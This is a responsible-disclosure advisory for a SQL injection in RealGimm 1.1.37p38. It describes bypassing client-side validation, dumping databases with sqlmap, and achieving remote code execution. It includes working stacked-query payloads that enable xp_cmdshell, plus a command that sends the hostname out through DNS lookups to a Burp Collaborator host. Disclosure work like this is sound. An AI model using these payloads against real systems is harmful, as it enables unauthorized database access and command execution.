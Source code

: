 # CVE-ID | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/9e0a6646-0ea5-4009-b963-8fdb19c269f8)

After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Log ObjectTrace* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/a4466e0a-3750-4c93-98b3-de061b4d4488)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/c6e03f6c-ed26-4a5b-954c-4ed65f9ea407)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/cbd7fa8c-a351-458f-91a7-2e2249f57ae4)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b21e04d3-a6aa-42f3-afe5-07b2c2af7e93)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/bba5ed73-e4cc-4108-980c-b26121af8d5f)

![Databases extractio](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/b499aa3d-ec54-4720-a068-ef3fed26827c)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/baeb01de-f523-4995-834c-f47df297b336)

## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Paolo Caminati

Claudio Rimensi

Francesco Mercatili
